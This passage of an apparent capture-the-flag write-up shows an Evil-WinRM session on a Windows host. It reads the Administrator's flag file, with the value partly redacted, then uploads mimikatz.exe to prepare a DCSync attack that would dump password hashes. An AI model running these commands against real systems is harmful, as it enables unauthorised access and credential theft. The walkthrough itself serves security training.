After returning to the enumeration phase and continuing to look through the host system, we are able to identify the `root.txt` flag file in the `C:\Users\Administrator\Desktop` directory.

```zsh
*Evil-WinRM* PS C:\Users> ls C:\Users\Administrator\Desktop

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       10/31/2025   7:34 PM             34 root.txt
```


We can attempt to read the contents of the file and obtain the flag:

```zsh
*Evil-WinRM* PS C:\Users\shadows\Documents> cat C:\Users\Administrator\Desktop\root.txt

2f930***************************
```

We can see that we have successfully obtained the `root.txt` flag!

> **Answer: `2f930***************************`**
{: .prompt-tip }




---
### Post Exploitation


With our user `shadows` being in the Administrator group, we can perform some simple post exploitation.

We will attempt to perform a DCSync attack against the target host and dump the password hashes of the accounts.

First we need to create a directory that we will be uploading `mimikatz.exe` to. We will create a directory `temp/`

```zsh
*Evil-WinRM* PS C:\Users\shadows> mkdir temp; cd temp

    Directory: C:\Users\shadows

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        11/1/2025   2:02 AM                temp
```


Now we can use the `evil-winrm` built in `upload` command to upload the `mimikatz.exe` binary onto the target. 

```zsh
*Evil-WinRM* PS C:\Users\shadows\temp> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
                                        
Info: Uploading /usr/share/windows-resources/mimikatz/x64/mimikatz.exe to C:\Users\shadows\temp\mimikatz.exe
                                        
Data: 1807016 bytes of 1807016 bytes copied
                                        
Info: Upload successful!
```

